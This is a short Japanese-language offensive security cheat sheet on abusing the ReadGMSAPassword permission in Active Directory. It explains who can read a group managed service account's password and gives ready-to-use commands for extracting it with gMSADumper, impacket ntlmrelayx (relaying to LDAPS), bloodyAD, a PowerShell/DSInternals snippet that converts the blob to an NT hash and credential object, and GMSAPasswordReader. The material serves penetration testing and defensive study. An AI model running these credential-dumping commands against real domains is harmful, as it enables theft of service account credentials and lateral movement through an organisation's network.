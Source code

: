 # ReadGMSAPasswordの悪用

この権限はgMSAアカウントの`msDS-GroupMSAMembership`属性のDACLに記載されているパーミッションが十分なオブジェクトを制御する場合に実行される可能性がある。通常、これらのオブジェクトは、gMSA アカウントの使用を明示的に許可するように設定されたプリンシパルである。

攻撃者は、これらの条件が満たされていれば、そのアカウントのgMSA（グループ管理サービスアカウント）パスワードを読み取ることができる。

# パスワードを取得する

## Linux

#### gMSADumper

```
gMSADumper.py -u <USERNAME> -p '<PASSWORD>' -d <DOMAIN>
```

#### ntlmrelayx (impacket)

```
impacket-ntlmrelayx -t ldaps://<Target_IP> -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs
```

#### bloodyAD

```
bloodyAD --host <DC_IP> -d <DOMAIN> -u <USERNAME> -p "<PASSWORD>" get object <TargetObject> --attr msDS-ManagedPassword
```

## Windows

#### PowerShell Active Directory Module & DSInternals module

```
$gmsa = Get-ADServiceAccount -Identity <Target_Account> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

ConvertFrom-ADManagedPasswordBlob $mp
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash

$cred = new-object system.management.automation.PSCredential <DOMAIN>\<Target_Account>,(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

#### [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader.git)

```
GMSAPasswordReader.exe --AccountName <Target_Account>
```



